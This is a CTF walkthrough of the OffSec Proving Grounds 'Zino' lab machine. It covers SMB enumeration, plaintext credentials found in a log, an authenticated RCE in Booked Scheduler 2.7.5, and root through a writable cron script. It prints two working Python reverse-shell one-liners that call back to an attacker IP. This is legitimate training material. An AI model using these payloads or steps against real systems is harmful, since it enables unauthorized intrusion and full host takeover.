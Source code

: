 ```yaml
---
title: "Proving grounds Practice: Zino"
layout: post
date: 2024-03-07 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- PG-Practice
- smb
- Booked Scheduler
- Cronjobs
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds practice linux machine writeup"
---
```


# NMAP

```text
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql?
8003/tcp open  http        Apache httpd 2.4.38
```

## 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
## 445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

Found smb share.

```sh
	Sharename       Type      Comment
	---------       ----      -------
	zino            Disk      Logs
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.
```

```sh
naveenj@hackerspace:[10:16]~/proving_grounds/Zino$ smbclient //192.168.201.64/zino -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul  9 15:11:49 2020
  ..                                  D        0  Tue Apr 28 09:38:53 2020
  .bash_history                       H        0  Tue Apr 28 11:35:28 2020
  error.log                           N      265  Tue Apr 28 10:07:32 2020
  .bash_logout                        H      220  Tue Apr 28 09:38:53 2020
  local.txt                           N       33  Wed Oct 25 10:11:40 2023
  .bashrc                             H     3526  Tue Apr 28 09:38:53 2020
  .gnupg                             DH        0  Tue Apr 28 10:17:02 2020
  .profile                            H      807  Tue Apr 28 09:38:53 2020
  misc.log                            N      424  Tue Apr 28 10:08:15 2020
  auth.log                            N      368  Tue Apr 28 10:07:54 2020
  access.log                          N     5464  Tue Apr 28 10:07:09 2020
  ftp
```

Downloaded local.txt file.

auth.log

```sh
Apr 28 08:16:54 zino groupadd[1044]: new group: name=peter, GID=1001
Apr 28 08:16:54 zino useradd[1048]: new user: name=peter, UID=1001, GID=1001, home=/home/peter, shell=/bin/bash
Apr 28 08:17:01 zino passwd[1056]: pam_unix(passwd:chauthtok): password changed for peter
Apr 28 08:17:01 zino CRON[1058]: pam_unix(cron:session): session opened for user root by (uid=0)
```

misc.log

```sh
naveenj@hackerspace:[10:32]~/proving_grounds/Zino$ cat misc.log 
Apr 28 08:39:01 zino systemd[1]: Starting Clean php session files...
Apr 28 08:39:01 zino CRON[2791]: (CRON) info (No MTA installed, discarding output)
Apr 28 08:39:01 zino systemd[1]: phpsessionclean.service: Succeeded.
Apr 28 08:39:01 zino systemd[1]: Started Clean php session files.
Apr 28 08:39:01 zino systemd[1]: Set application username "admin"
Apr 28 08:39:01 zino systemd[1]: Set application password "adminadmin"
```

## 8003/tcp open  http        Apache httpd 2.4.38

Booked Scheduler v2.7.5 - search for exploit using searchsploit.

Booked Scheduler 2.7.5 - Remote Command Execution (RCE) (Authenticated)   | php/webapps/50594.py

**Credentials**

`admin:adminadmin`

As per the exploit...

- Direct to the below URL and upload reverse shell or remote code execution php file.

`http://192.168.201.64:8003/booked/Web/admin/manage_theme.php`

- Trigger shell at `http://192.168.201.64:8003/booked/Web/custom-favicon.php?cmd=id`.

Python2 reverese shell

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.232",22));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

- Url encode and send the request.

```sh
naveenj@hackerspace:[10:45]~/proving_grounds/Zino$ nc -lvnp 22
listening on [any] 22 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.201.64] 51696
$ id
id
```

Initial Foothold Obtained.

## Privilege Escalation


Download and run linpeas using port 8003

```sh
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
```
Cronjon running every 3 minutes.

**Python2 reverse shell**

```sh
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.232",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

Add the reverse shell code to cleanup.py file and wait for 3 minutes to get reverse connection.

```sh
naveenj@hackerspace:[11:13]~/proving_grounds/Zino$ nc -lvnp 21
listening on [any] 21 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.201.64] 35774
# 
```

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).